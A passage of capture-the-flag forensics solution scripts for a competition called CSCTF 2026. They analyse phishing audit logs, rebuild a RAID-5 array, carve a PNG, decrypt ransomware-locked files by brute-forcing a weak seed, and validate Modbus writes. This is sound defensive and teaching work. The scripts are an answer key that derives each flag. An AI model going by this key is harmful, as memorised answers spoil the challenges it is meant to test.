    flag = assemble_flag(pwd, comment, token)
    print(f"\n[+] Assembled flag (3 fragments): {flag}")


if __name__ == "__main__":
    main()
~~~~

### Code Red Freight — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Code Red Freight (forensics/medium)
Identify the adversary device, the leaking inbox rule and the
download count from sanitized Entra/Purview-style exports.

Findings (all derived from the evidence, never hardcoded):
  - Attacker IP 203.0.113.77 (Montreal) vs dispatcher 198.51.100.24.
  - Device-code phishing -> device registration of D3VC0DE-R3L4Y
    (DeviceId 95caec44-c8af-4786-976c-73bd33d9d143, Azure AD joined)
    at 2026-10-29T15:05, the same DeviceId present on every
    attacker session and on the malicious inbox rule.
  - Benign baseline: R3M0TE-W0RK-PC joined 2026-10-28 from the
    dispatcher's own IP; benign inbox rule "Newsletters"
    (MoveToFolder) from the dispatcher's IP/session.
  - Malicious inbox rule M4N1F3ST-L3AK (ForwardTo ragubarden@proton.me)
    created 2026-10-29T15:28:57 from the attacker IP:port with the
    attacker DeviceId.
  - 4 FileDownloaded events, all from the attacker IP.

Flag: CSCTF{device_rule_count} (parts derived from the evidence)

Usage:
    python3 solve.py [code_red_freight.zip | extracted-dir]
"""

import csv
import json
import os
import sys
import zipfile

LOGS = (
    "code_red_freight/logs/AuditLogs_2026-10-29-Patti_Fernandez.csv",
    "code_red_freight/logs/InteractiveSignIns_2026-10-28_2026-10-29.csv",
    "code_red_freight/logs/NonInteractiveSignIns_2026-10-28_2026-10-29.csv",
    "code_red_freight/logs/UnifiedAuditLog_Patti.csv",
)


def load_logs(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/code_red_freight.zip",
        "../code_red_freight.zip",
        "docs/2026-chronos-csctf/forensics/code_red_freight.zip",
        "/tmp/opencode/codered/code_red_freight",
    ]
    for path in candidates:
        if not path:
            continue
        if os.path.isdir(path):
            variants = [LOGS, tuple(n.split("/", 1)[1] for n in LOGS)]
            for names in variants:
                files = {os.path.basename(n): os.path.join(path, n)
                         for n in names}
                if all(os.path.isfile(p) for p in files.values()):
                    print(f"[*] Loading directory {path}")
                    return {k: open(v, encoding="utf-8-sig").read()
                            for k, v in files.items()}
        elif os.path.isfile(path) and path.lower().endswith(".zip"):
            print(f"[*] Loading {path}")
            out = {}
            with zipfile.ZipFile(path) as zf:
                for name in LOGS:
                    out[os.path.basename(name)] = zf.read(name).decode(
                        "utf-8-sig")
            return out
    raise SystemExit("[-] Provide code_red_freight.zip or extracted dir")


def rows(text):
    return list(csv.DictReader(text.splitlines()))


def main():
    ev = load_logs(sys.argv)

    audit = rows(ev["AuditLogs_2026-10-29-Patti_Fernandez.csv"])
    ual = rows(ev["UnifiedAuditLog_Patti.csv"])

    # --- 1. Device registrations: attacker vs baseline ----------------
    regs = [r for r in audit if r["Activity"] == "Register device"]
    print("[*] Device registrations:")
    for r in regs:
        print(f"    {r['Date (UTC)']} name={r['Target1DisplayName']} "
              f"ip={r['IPAddress']} deviceId={r['AdditionalDetail5Value']}")
    attacker_regs = [r for r in regs if r["IPAddress"] == "203.0.113.77"]
    assert len(attacker_regs) == 1, "expected exactly one attacker device"
    device = attacker_regs[0]["Target1DisplayName"]
    attacker_device_id = attacker_regs[0]["AdditionalDetail5Value"]
    baseline = [r for r in regs if r["IPAddress"] != "203.0.113.77"]
    print(f"[*] Attacker device : {device} ({attacker_device_id})")
    print(f"[*] Baseline device : {baseline[0]['Target1DisplayName']} "
          f"({baseline[0]['AdditionalDetail5Value']})")

    # --- 2. Inbox rules: malicious forward vs benign move -------------
    rules = [(i, json.loads(r["AuditData"]))
             for i, r in enumerate(ual) if r["Operation"] == "New-InboxRule"]
    print("[*] Inbox rules:")
    malicious = None
    for _, ad in rules:
        params = {p["Name"]: p["Value"] for p in ad.get("Parameters", [])}
        name = params.get("Name", "?")
        print(f"    {ad['CreationTime']} name={name} "
              f"ip={ad.get('ClientIP')} device={ad.get('DeviceId')} "
              f"forward={params.get('ForwardTo')} move={params.get('MoveToFolder')}")
        if params.get("ForwardTo", "").endswith("@proton.me"):
            malicious = (ad, params)
    assert malicious, "no external-forward rule found"
    rule = malicious[1]["Name"]
    fwd = malicious[1]["ForwardTo"]
    assert malicious[0].get("DeviceId") == attacker_device_id, \
        "rule DeviceId does not match the attacker device"
    print(f"[*] Malicious rule  : {rule} -> {fwd}")
    benign = [p for _, ad in rules
              for p in [{q["Name"]: q["Value"]}
                        for q in ad.get("Parameters", [])]]
    assert any("MoveToFolder" in str(b) for b in benign), \
        "benign baseline rule missing"

    # --- 3. Downloads from the attacker IP only -----------------------
    downloads = [r for r in ual if r["Operation"] == "FileDownloaded"]
    attacker_dl = [r for r in downloads
                   if "203.0.113.77" in json.loads(r["AuditData"])
                   .get("ClientIP", "")]
    print("[*] FileDownloaded events:")
    for r in attacker_dl:
        ad = json.loads(r["AuditData"])
        print(f"    {r['CreationDate']} {ad.get('SourceFileName')}")
    assert len(attacker_dl) == len(downloads), \
        "unexpected FileDownloaded from another IP"
    count = len(attacker_dl)
    print(f"[*] Download count  : {count}")

    flag = f"CSCTF{{{device}_{rule}_{count}}}"
    print(f"\n[+] FLAG            : {flag}")


if __name__ == "__main__":
    main()
~~~~

### Dawn Array — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Dawn Array (forensics/medium)
Rebuild a 4-member Linux md RAID-5 from 3 surviving members (read-only),
then apply gateway procedure DP-7 to find the controller-acknowledged
release witness.

Pipeline (every geometry value is derived from the member superblocks,
never assumed):
  1. Parse md v1 superblocks: RAID-5, 4 disks, layout 2 (left-symmetric),
     64-sector chunks, 2048-sector data offset, per-device roles; the
     missing role is recomputed parity (role 1 here).
  2. Delegate the byte shuffling to the provided tools/raid5_extract.py
     with the derived arguments; abort unless the result opens as ext4.
  3. Dump the evidence files read-only with debugfs (no mount, no root).
  4. Read dispatch.sqlite WITH its WAL applied (WAL-only rows count;
     33 of the 128 rows live only in the WAL here).
  5. Parse the RFC 5424 syslog (SD-ID rrca@32473) and reassemble the
     128 HTTP/1.1 connections from controller-access.pcapng in pure
     Python (one TCP connection per gateway_seq, POST then GET).
  6. Apply DP-7 Q1..Q5; qualifying cycles in ascending gateway_seq form
     the witness: "RRCA-DAWN-WITNESS-v1\\n" + lines
     cycle_id|request_id|prepare_revision|reservation_nonce|
     release_register|release_value
  7. Flag = CSCTF{dawn_<SHA-256 of the witness bytes>}.

Requires: debugfs (e2fsprogs, read-only dumps) + the ZIP contents.
Never mounts, never writes to the evidence, needs no root.

Usage:
    python3 solve.py [dawn-array.zip | extracted-dir]
"""

import hashlib
import json
import os
import re
import sqlite3
import struct
import subprocess
import sys
import tempfile
import zipfile
from collections import Counter

MD_MAGIC = 0xA92B4EFC
MD_LAYOUTS = {0: "left-asymmetric", 1: "right-asymmetric",
              2: "left-symmetric", 3: "right-symmetric"}
MEMBERS = ("acq-1.raw", "acq-2.raw", "acq-3.raw")
WITNESS_HEADER = b"RRCA-DAWN-WITNESS-v1\n"
PHASES = ["PREPARE_SENT", "RESPONSE_OBSERVED", "READBACK_OBSERVED",
          "COMMIT_WRITTEN"]
SD_RE = re.compile(r"\[rrca@32473 ([^\]]*)\]")
PARAM_RE = re.compile(r'(\w+)="([^"]*)"')


# ---------------------------------------------------------------- evidence

def load_evidence(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/dawn-array.zip",
        "../dawn-array.zip",
        "docs/2026-chronos-csctf/forensics/dawn-array.zip",
        "/tmp/opencode/dawn2",
    ]
    for path in candidates:
        if not path:
            continue
        if os.path.isdir(path):
            direct = {n: os.path.join(path, n) for n in MEMBERS}
            nested = {n: os.path.join(path, "dawn-array", n) for n in MEMBERS}
            for files in (direct, nested):
                if all(os.path.isfile(p) for p in files.values()):
                    print(f"[*] Loading members from {path}")
                    members = {n: open(p, "rb").read()
                               for n, p in files.items()}
                    tool = None
                    for cand in (os.path.join(path, "tools",
                                              "raid5_extract.py"),
                                  os.path.join(path, "dawn-array", "tools",
                                              "raid5_extract.py")):
                        if os.path.isfile(cand):
                            tool = open(cand, "rb").read()
                    return members, tool
        elif os.path.isfile(path) and path.lower().endswith(".zip"):
            print(f"[*] Loading {path}")
            with zipfile.ZipFile(path) as zf:
                names = zf.namelist()
                members = {n: zf.read(m) for n in MEMBERS
                           for m in names if m.endswith(n)}
                tool = next((zf.read(m) for m in names
                             if m.endswith("tools/raid5_extract.py")), None)
                assert len(members) == 3 and tool, "incomplete ZIP"
                return members, tool
    raise SystemExit("[-] Provide dawn-array.zip or its extracted dir")


# ---------------------------------------------------------------- md RAID-5

def parse_superblock(blob, name):
    sb_off = blob.find(struct.pack("<I", MD_MAGIC))
    assert sb_off == 0x1000, f"{name}: v1 superblock not at 0x1000"
    sb = blob[sb_off:sb_off + 512]
    assert struct.unpack_from("<I", sb, 4)[0] == 1, "not md v1"
    level = struct.unpack_from("<i", sb, 72)[0]
    layout = struct.unpack_from("<I", sb, 76)[0]
    size = struct.unpack_from("<Q", sb, 80)[0]
    chunksize = struct.unpack_from("<I", sb, 88)[0]
    ndisks = struct.unpack_from("<I", sb, 92)[0]
    data_offset = struct.unpack_from("<Q", sb, 128)[0]
    dev_number = struct.unpack_from("<I", sb, 160)[0]
    max_dev = struct.unpack_from("<I", sb, 220)[0]
    roles = [struct.unpack_from("<H", sb, 256 + 2 * i)[0]
             for i in range(max_dev)]
    assert level == 5 and ndisks == 4, f"{name}: not 4-member RAID-5"
    role = roles[dev_number]
    assert role not in (0xFFFF, 0xFFFE), f"{name}: spare/faulty member"
    return {
        "layout": MD_LAYOUTS[layout],
        "chunk_bytes": chunksize * 512,
        "data_offset_bytes": data_offset * 512,
        "array_bytes": (ndisks - 1) * size * 512,
        "member_count": ndisks,
        "role": role,
    }


def derive_geometry(members):
    per_member = {n: parse_superblock(b, n) for n, b in members.items()}
    first = next(iter(per_member.values()))
    for m in per_member.values():
        assert all(m[k] == first[k] for k in
                   ("layout", "chunk_bytes", "data_offset_bytes",
                    "array_bytes", "member_count")), "member geometry split"
    roles = sorted(m["role"] for m in per_member.values())
    assert len(set(roles)) == first["member_count"] - 1, "need N-1 roles"
    missing = (set(range(first["member_count"])) - set(roles)).pop()
    print(f"[*] md RAID-5: layout={first['layout']} "
          f"chunk={first['chunk_bytes']} "
          f"data_off={first['data_offset_bytes']} "
          f"array={first['array_bytes']} roles={roles} missing={missing}")
    return first, {n: per_member[n]["role"] for n in members}


def reconstruct(members, tool_src, geom, roles, tmp):
    helper = os.path.join(tmp, "raid5_extract.py")
    open(helper, "wb").write(tool_src)
    img = os.path.join(tmp, "array.img")
    cmd = [sys.executable, helper]
    for name, role in roles.items():
        part = os.path.join(tmp, name)
        open(part, "wb").write(members[name])
        cmd += ["--member", f"{role}:{part}"]
    cmd += ["--member-count", str(geom["member_count"]),
            "--chunk-bytes", str(geom["chunk_bytes"]),
            "--data-offset-bytes", str(geom["data_offset_bytes"]),
            "--array-bytes", str(geom["array_bytes"]),
            "--layout", geom["layout"],
            "--output", img]
    proc = subprocess.run(cmd, capture_output=True, text=True)
    assert proc.returncode == 0, f"raid5_extract failed: {proc.stderr}"
    raw = open(img, "rb").read()
    assert raw[1024 + 0x38:1024 + 0x3A] == b"\x53\xef", \
        "rebuilt image is not ext4 - geometry wrong"
    print(f"[*] Rebuilt {len(raw)} logical bytes, ext4 magic OK")
    return img


# ---------------------------------------------------------------- ext4 (read-only debugfs dumps)

EVIDENCE_PATHS = [
    "/var/lib/rrca/dispatch.sqlite",
    "/var/lib/rrca/dispatch.sqlite-wal",
    "/var/lib/rrca/dispatch.sqlite-shm",
    "/var/log/rrca/dispatch-gateway.syslog",
    "/var/log/rrca/controller-access.pcapng",
]


def dump_files(image, tmp):
    out = {}
    for path in EVIDENCE_PATHS:
        dest = os.path.join(tmp, os.path.basename(path))
        proc = subprocess.run(["debugfs", "-R", f"dump {path} {dest}",
                               image], capture_output=True, text=True)
        assert proc.returncode == 0 and os.path.isfile(dest), \
            f"debugfs dump failed for {path}: {proc.stderr}"
        out[os.path.basename(path)] = open(dest, "rb").read()
        print(f"[*] debugfs dump  : {path} ({len(out[os.path.basename(path)])} bytes)")
    return out


# ---------------------------------------------------------------- syslog + pcapng

def parse_syslog(blob):
    lines = blob.decode().splitlines()
    recs, by_cycle = [], {}
    for idx, line in enumerate(lines):
        m = SD_RE.search(line)
        assert m, f"syslog line {idx} has no rrca@32473 element"
        d = dict(PARAM_RE.findall(m.group(1)))
        d["_idx"] = idx
        recs.append(d)
        by_cycle.setdefault(d["cycle_id"], {})[d["phase"]] = d
    print(f"[*] Syslog        : {len(lines)} records, "
          f"{len(by_cycle)} cycles")
    return recs, by_cycle


def iter_pcapng_packets(data):
    assert data[:4] == b"\x0a\x0d\x0d\x0a", "not a pcapng file"
    endian = "<" if data[8:12] == b"\x4d\x3c\x2b\x1a" else ">"
    off = 0
    while off + 12 <= len(data):
        btype, blen = struct.unpack_from(endian + "II", data, off)
        if blen < 12 or off + blen > len(data):
            break
        body = data[off + 8:off + blen - 4]
        if btype == 0x00000006 and len(body) >= 20:
            caplen = struct.unpack_from(endian + "I", body, 12)[0]
            yield body[20:20 + caplen]
        elif btype == 0x00000003 and len(body) >= 4:
            caplen = struct.unpack_from(endian + "I", body, 0)[0]
            yield body[4:4 + caplen]
        if btype == 0x0A0D0D0A and len(body) >= 4:
            endian = "<" if body[:4] == b"\x4d\x3c\x2b\x1a" else ">"
        off += blen


def reassemble(stream_segments):
    out, nxt = bytearray(), None
    for seq, payload in sorted(stream_segments):
        if not payload:
            continue
        if nxt is None:
            nxt = seq
        if seq > nxt:
            break  # gap: no pipelining analysis on truncated streams
        skip = max(0, nxt - seq)
        out.extend(payload[skip:])
        nxt = max(nxt, seq + len(payload))
    return bytes(out)


def parse_http(stream):
    msgs, i = [], 0
    while i < len(stream):
        hend = stream.find(b"\r\n\r\n", i)
        assert hend >= 0, "truncated HTTP stream"
        head = stream[i:hend].decode("latin1")
        m = re.search(r"[Cc]ontent-[Ll]ength:\s*(\d+)", head)
        length = int(m.group(1)) if m else 0
        assert b"ransfer-Encoding" not in stream[i:hend], \
            "transfer encoding forbidden by DP-7"
        msgs.append((head, stream[hend + 4:hend + 4 + length]))
        i = hend + 4 + length
    return msgs


def parse_exchange(pcap_blob):
    conns = {}
    for pkt in iter_pcapng_packets(pcap_blob):
        off, eth = 14, struct.unpack_from(">H", pkt, 12)[0]
        while eth in (0x8100, 0x88A8):
            eth = struct.unpack_from(">H", pkt, off + 2)[0]
            off += 4
        assert eth == 0x0800, "non-IPv4 packet in capture"
        ihl = (pkt[off] & 0x0F) * 4
        total = struct.unpack_from(">H", pkt, off + 2)[0]
        ip_end = off + total if total else len(pkt)
        src = ".".join(str(b) for b in pkt[off + 12:off + 16])
        dst = ".".join(str(b) for b in pkt[off + 16:off + 20])
        tcp = off + ihl
        sport, dport, seq = struct.unpack_from(">HHI", pkt, tcp)
        doff = ((pkt[tcp + 12] >> 4) & 0xF) * 4
        payload = pkt[tcp + doff:ip_end]
        key = tuple(sorted(((src, sport), (dst, dport))))
        side = "C" if dport == 8080 or sport != 8080 else "S"
        conns.setdefault(key, {"C": [], "S": []})[side].append(
            (seq, payload))
    assert len(conns) == 128, f"expected 128 connections, got {len(conns)}"
    return conns


def headers(head):
    fields = {}
    for line in head.split("\r\n")[1:]:
        if ":" in line:
            k, v = line.split(":", 1)
            fields[k.strip().lower()] = v.strip()
    return fields


# ---------------------------------------------------------------- DP-7

def qualify(ledger, sys_by_cycle, conns):
    qualifying, notes = [], Counter()
    for key, sides in conns.items():
        (post_h, post_b), (get_h, get_b) = parse_http(
            reassemble(sides["C"]))
        (resp_h, resp_b), (read_h, read_b) = parse_http(
            reassemble(sides["S"]))
        assert post_h.splitlines()[0].startswith("POST /v1/reservations")
        assert get_h.splitlines()[0].startswith("GET /v1/readback")
        assert resp_h.splitlines()[0].startswith("HTTP/1.1 201"), \
            f"non-201 reservation: {resp_h.splitlines()[0]}"
        assert read_h.splitlines()[0].startswith("HTTP/1.1 200"), \
            f"non-200 readback: {read_h.splitlines()[0]}"
        post, resp, get, read = (headers(post_h), headers(resp_h),
                                headers(get_h), headers(read_h))
        cycle_id = post["x-rrca-cycle"]
        assert cycle_id in ledger, f"POST cycle {cycle_id} not in ledger"
        row = ledger[cycle_id]
        problems = []
        # Q2
        if (resp.get("x-rrca-cycle"), resp.get("x-rrca-request")) != \
                (cycle_id, row["request_id"]):
            problems.append("Q2: response does not echo POST ids")
        req = json.loads(post_b)
        if (req.get("revision"), req.get("register"), req.get("value")) != \
                (row["prepare_revision"], row["release_register"],
                 row["release_value"]):
            problems.append("Q2: POST body differs from ledger row")
        # Q3
        ans = json.loads(resp_b)
        if ans.get("revision") != row["prepare_revision"]:
            problems.append("Q3: response revision differs from ledger")
        if ans.get("nonce") != row["reservation_nonce"]:
            problems.append("Q3: response nonce differs from ledger")
        seen = sys_by_cycle[cycle_id]["RESPONSE_OBSERVED"]
        if ans.get("nonce") != seen.get("nonce"):
            problems.append("Q3: response nonce differs from syslog")
        # Q4
        if get.get("x-rrca-readback-for") != row["request_id"]:
            problems.append("Q4: GET names a different request")
        view = json.loads(read_b)
        if (view.get("nonce"), view.get("revision")) != \
                (ans.get("nonce"), ans.get("revision")):
            problems.append("Q4: readback view differs from reservation")
        if (view.get("register"), view.get("value")) != \
                (row["release_register"], row["release_value"]):
            problems.append("Q4: readback view differs from ledger")
        seen_rb = sys_by_cycle[cycle_id]["READBACK_OBSERVED"]
        if (seen_rb.get("nonce"), seen_rb.get("revision"),
                seen_rb.get("release_register"),
                seen_rb.get("release_value")) != \
                (row["reservation_nonce"], row["prepare_revision"],
                 row["release_register"], row["release_value"]):
            problems.append("Q4: syslog readback differs from ledger")
        # Q1 + Q5 (ledger row exists by construction; phases from syslog)
        phases = sys_by_cycle[cycle_id]
        if set(phases) != set(PHASES):
            problems.append("Q1: phase set incomplete/duplicated")
        ordered = sorted(phases.values(), key=lambda d: d["_idx"])
        if [d["phase"] for d in ordered] != PHASES:
            problems.append("Q5: phases out of order")
        if any(d["request_id"] != row["request_id"] or
               d["gateway_seq"] != str(row["gateway_seq"])
               for d in ordered):
            problems.append("Q1: phase ids diverge from ledger row")
        if problems:
            notes[tuple(sorted(problems))] += 1
        else:
            qualifying.append(row)
    return qualifying, notes


# ---------------------------------------------------------------- main

def main():
    members, tool_src = load_evidence(sys.argv)
    assert tool_src, "tools/raid5_extract.py missing from evidence"
    geom, roles = derive_geometry(members)

    with tempfile.TemporaryDirectory() as tmp:
        image = reconstruct(members, tool_src, geom, roles, tmp)
        dumps = dump_files(image, tmp)

        db_path = os.path.join(tmp, "dispatch.sqlite")
        for name in ("dispatch.sqlite", "dispatch.sqlite-wal",
                     "dispatch.sqlite-shm"):
            open(db_path.replace("dispatch.sqlite", name), "wb").write(
                dumps[name])
        con = sqlite3.connect(f"file:{db_path}?mode=ro", uri=True)
        cols = ("cycle_id,request_id,gateway_seq,prepare_revision,"
                "reservation_nonce,release_register,release_value")
        ledger = {r[0]: dict(zip(
            ("cycle_id", "request_id", "gateway_seq", "prepare_revision",
             "reservation_nonce", "release_register", "release_value"), r))
            for r in con.execute(f"SELECT {cols} FROM cycles")}
        print(f"[*] Ledger        : {len(ledger)} rows (WAL applied)")
        assert len(ledger) == 128, "expected gateway_seq 1..128"

        _, sys_by_cycle = parse_syslog(dumps["dispatch-gateway.syslog"])
        conns = parse_exchange(dumps["controller-access.pcapng"])
        print(f"[*] Capture       : {len(conns)} connections, "
              f"POST/201 + GET/200 each, no pipelining")

        qualifying, notes = qualify(ledger, sys_by_cycle, conns)
        print(f"[*] Non-qualifying classes: {dict(notes)}")
        print(f"[*] Qualifying    : {len(qualifying)} cycles")
        qualifying.sort(key=lambda r: r["gateway_seq"])
        print("[*] Qualifying gateway_seq: "
              + ",".join(str(r["gateway_seq"]) for r in qualifying))

        blob = WITNESS_HEADER + "".join(
            "{cycle_id}|{request_id}|{prepare_revision}|{reservation_nonce}|"
            "{release_register}|{release_value}\n".format(**r)
            for r in qualifying).encode()
        witness = hashlib.sha256(blob).hexdigest()
        print(f"[*] Witness bytes : {len(blob)} "
              f"(header 21 + {len(qualifying)} lines)")
        print(f"\n[+] FLAG            : CSCTF{{dawn_{witness}}}")


if __name__ == "__main__":
    main()
~~~~

### Flotsam — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""flotsam: carve a fragmented PNG out of a raw 512-byte-sector dump.

Usage: python3 -I solve.py ../files/recorder-sectors.img out.png
Fragment 1 = PNG header .. first all-zero sector. The rest of the IDAT is in
earlier non-zero sectors (address order); the last bytes sit in the sector that
holds IEND. The IDAT CRC validates the reassembly.
"""
import struct, sys, zlib

SS = 512
d = open(sys.argv[1], "rb").read()
n = len(d) // SS
sec = lambda i: d[i * SS:(i + 1) * SS]
ascii_text = lambda s: all(32 <= c < 127 or c in (10, 13) for c in s.rstrip(b"\0"))

# 1. First fragment: from the PNG signature to the first all-zero sector.
start = d.index(b"\x89PNG\r\n\x1a\n") // SS
end = next(i for i in range(start, n) if sec(i) == b"\0" * SS)
frag1 = d[start * SS:end * SS]
idat_len = struct.unpack(">I", frag1[33:37])[0]
assert frag1[37:41] == b"IDAT"
first = frag1[41:]

# 2. Pool of orphan sectors before the PNG: drop zero sectors, the NMEA ($GPRMC) text
#    and the JPEG decoy (FFD8 .. FFD9).
iend_sec = d.index(b"IEND") // SS
jpg_a, jpg_b = d.index(b"\xff\xd8\xff") // SS, d.index(b"\xff\xd9") // SS
pool = [i for i in range(iend_sec)
        if i < start and sec(i) != b"\0" * SS and not ascii_text(sec(i)) and not jpg_a <= i <= jpg_b]

# 3. Reassemble: fragment 1 + pool (address order) + head of the IEND sector.
body = first + b"".join(sec(i) for i in pool)
last = idat_len - len(body)
idat = body + d[iend_sec * SS:iend_sec * SS + last]
crc_off = iend_sec * SS + last
crc = d[crc_off:crc_off + 4]
ok = zlib.crc32(b"IDAT" + idat) == struct.unpack(">I", crc)[0]
print(f"pool={pool} idat={len(idat)}/{idat_len} crc_ok={ok}", file=sys.stderr)
assert ok

png = frag1[:41] + idat + crc + d[crc_off + 4:crc_off + 16]   # + IEND chunk
open(sys.argv[2], "wb").write(png)
print("wrote", sys.argv[2], len(png), "bytes")
~~~~

### Ghost in the Historian — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Ghost in the Historian (forensics/medium)
Recover the SAFETY_INTERLOCK_TOKEN from an encrypted substation
historian image without executing anything.

Chain (all parameters derived from the evidence, never assumed):
  1. The ext4 flat extent holds 3 *.enc files plus a ransom note and a
     syslog line written by the encryptor itself:
     "historian_enc[PID]: starting encryption sweep" -> PID = 2764964.
  2. The deleted encryptor (carved ELF, read-only, never executed)
     disassembles to: seed = ((time() ^ getpid()) * 0x9E3779B1) mod 2^32,
     keystream = xorshift32(13,17,5) bytes, applied per file with the
     state carried over from file to file in scandir order.
  3. The log timestamp (2026-10-02 04:13, minute precision) bounds the
     seed time(); brute-forcing it finds t = 04:13:05, whose seed-state
     decryption of grid_topology.cfg.enc yields ASCII config text.
  4. Chaining the state across grid -> cache -> node decrypts all
     three originals; the token sits in the topology config.

Requires: debugfs (e2fsprocs, read-only dumps of the flat extent).
Never mounts the image, never executes recovered programs.

Usage:
    python3 solve.py [ghost-in-the-historian.zip | flat-extent | dir]
"""

import datetime
import json
import os
import re
import struct
import subprocess
import sys
import tempfile
import zipfile

PID_RE = re.compile(rb"historian_enc\[(\d+)\]")
SWEEP_RE = re.compile(rb"(\d{4}-\d{2}-\d{2} \d{2}:\d{2}) .*starting "
                      rb"encryption sweep")
TOKEN_RE = re.compile(rb"SAFETY_INTERLOCK_TOKEN=(CSCTF\{[^}]*\})")
MUL = 0x9E3779B1
MASK = 0xFFFFFFFF


# ---------------------------------------------------------------- evidence

def load_evidence(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/ghost-in-the-historian.zip",
        "../ghost-in-the-historian.zip",
        "docs/2026-chronos-csctf/network/ghost-in-the-historian.zip",
        "/tmp/opencode/ghost/evidence-flat.vmdk",
    ]
    for path in candidates:
        if not path:
            continue
        if os.path.isfile(path):
            if path.lower().endswith((".zip",)):
                print(f"[*] Loading {path}")
                with zipfile.ZipFile(path) as zf:
                    names = zf.namelist()
                    flat = next(n for n in names if n.endswith("-flat.vmdk"))
                    return zf.read(flat)
            elif path.endswith((".vmdk", ".img", ".dd", ".raw")):
                print(f"[*] Loading flat extent {path}")
                with open(path, "rb") as fh:
                    return fh.read()
        elif os.path.isdir(path):
            for name in ("evidence-flat.vmdk",):
                cand = os.path.join(path, name)
                if os.path.isfile(cand):
                    print(f"[*] Loading flat extent {cand}")
                    with open(cand, "rb") as fh:
                        return fh.read()
    raise SystemExit("[-] Provide ghost-in-the-historian.zip or flat extent")


def dump_file(image_path, fs_path, dest):
    proc = subprocess.run(["debugfs", "-R", f"dump {fs_path} {dest}",
                           image_path], capture_output=True, text=True)
    assert proc.returncode == 0 and os.path.isfile(dest), \
        f"debugfs dump failed for {fs_path}: {proc.stderr}"
    with open(dest, "rb") as fh:
        return fh.read()


# ---------------------------------------------------------------- crypto

def xorshift_states(seed, n):
    s, out = seed, []
    for _ in range(n):
        x = s
        x ^= (x << 13) & MASK
        x &= MASK
        x ^= x >> 17
        x ^= (x << 5) & MASK
        x &= MASK
        s, out = x, out + [x]
    return out


def keystream(seed, n, skip_states=0):
    states = xorshift_states(seed, skip_states + (n + 3) // 4)
    out = bytearray()
    for x in states[skip_states:]:
        out.extend(struct.pack("<I", x))
        if len(out) >= n:
            break
    return bytes(out[:n])


def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))


def printable_score(blob):
    return sum(1 for c in blob if 32 <= c < 127 or c in (10, 13, 9))


# ---------------------------------------------------------------- main

def main():
    flat = load_evidence(sys.argv)
    assert flat[1024 + 0x38:1024 + 0x3A] == b"\x53\xef", "not an ext4 extent"
    print(f"[*] Flat extent   : {len(flat)} bytes, ext4 magic OK")

    with tempfile.TemporaryDirectory() as tmp:
        img = os.path.join(tmp, "evidence-flat.vmdk")
        open(img, "wb").write(flat)
        syslog = dump_file(img, "/var/log/historian.log",
                           os.path.join(tmp, "historian.log"))
        enc = {}
        for name in ("node_status.json.enc", "grid_topology.cfg.enc",
                     "historian_cache.dat.enc"):
            enc[name] = dump_file(img, f"/var/historian/{name}",
                                  os.path.join(tmp, name))
            print(f"[*] {name:28s} {len(enc[name])} bytes")

    pid = int(PID_RE.search(syslog).group(1))
    sweep = SWEEP_RE.search(syslog).group(1).decode()
    print(f"[*] Sweep log     : {sweep} historian_enc[{pid}]")
    day = datetime.datetime.strptime(sweep[:10], "%Y-%m-%d").replace(
        tzinfo=datetime.timezone.utc)
    base = int(day.timestamp())

    # The grid config decrypts from seed state and is fully printable;
    # the other two start from chained states, so only the grid can
    # validate a seed candidate on its own.
    target = enc["grid_topology.cfg.enc"]
    found = None
    for t in range(base, base + 86400):
        seed = (((t ^ pid) * MUL) & MASK)
        plain = xor_bytes(target, keystream(seed, len(target)))
        if printable_score(plain) == len(plain) and plain.startswith(b"#"):
            found = (t, seed, plain)
            break
    assert found, "seed time not found on sweep day"
    t, seed, grid_plain = found
    stamp = datetime.datetime.fromtimestamp(t, datetime.timezone.utc)
    print(f"[*] Seed time     : {stamp} (t={t}) seed={seed:#010x}")
    print(f"[*] grid_topology :\n{grid_plain.decode()}")

    # Chain: grid (235 B -> 59 states), cache (64 B -> 16 states), node.
    cache_len = len(enc["historian_cache.dat.enc"])
    node_len = len(enc["node_status.json.enc"])
    cache_plain, node_plain, order = None, None, None
    for second, third in (("historian_cache.dat.enc",
                           "node_status.json.enc"),
                          ("node_status.json.enc",
                           "historian_cache.dat.enc")):
        mid = xor_bytes(enc[second],
                        keystream(seed, len(enc[second]),
                                  skip_states=59))
        if printable_score(mid) != len(mid):
            continue
        last = xor_bytes(enc[third],
                         keystream(seed, len(enc[third]),
                                   skip_states=59 + (len(enc[second]) + 3) //
                                   4))
        if printable_score(last) == len(last):
            cache_plain, node_plain = (
                (mid, last) if second.startswith("historian")
                else (last, mid))
            order = (second, third)
            break
    assert order, "chained decryption order not found"
    print(f"[*] Chain order   : grid_topology.cfg.enc -> {' -> '.join(order)}")
    print(f"[*] historian_cache:\n{cache_plain.decode()}")
    print(f"[*] node_status   :\n{node_plain.decode()}")
    json.loads(node_plain)  # the status file must stay valid JSON

    token = TOKEN_RE.search(grid_plain).group(1).decode()
    print(f"\n[+] FLAG            : {token}")


if __name__ == "__main__":
    main()
~~~~

### Interlock Witness — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Interlock Witness (forensics/medium)
Reconstruct accepted Modbus/TCP writes that breach the offline
response-cell interlock policy and derive the incident witness.

Policy (interlock-policy.md + register-map.md + witness-format.md):
  - One client -> controller flow on TCP/502, MBAP proto 0, unit 1,
    one request/response completed before the next request.
  - FC03 observation accepted only if the immediately preceding FC03
    request matches (reversed flow) TID / proto / unit / function and
    byte_count == 2 * quantity. It updates every mapped word it covers.
  - FC16 write accepted only if its reversed-flow normal response
    matches TID / proto / unit / function and echoes start + quantity.
    Exception responses never change state.
  - Accepted FC16 updates apply AFTER their normal response.
  - Target: FC16 quantity 1 at PDU 0x0013 (trip_limit) or 0x0014
    (restore_delay). The 8 other accepted FC16 are ineligible.
  - Target is unsafe iff, immediately before its normal response,
    not (permit==1 and isolation==1 and protection==1), with
    permit=0x000A, isolation=0x000B, protection=0x000C (zero-based PDU;
    40011/40012/40013 are operator labels only).
  - T = concat over unsafe targets in normal-response order of
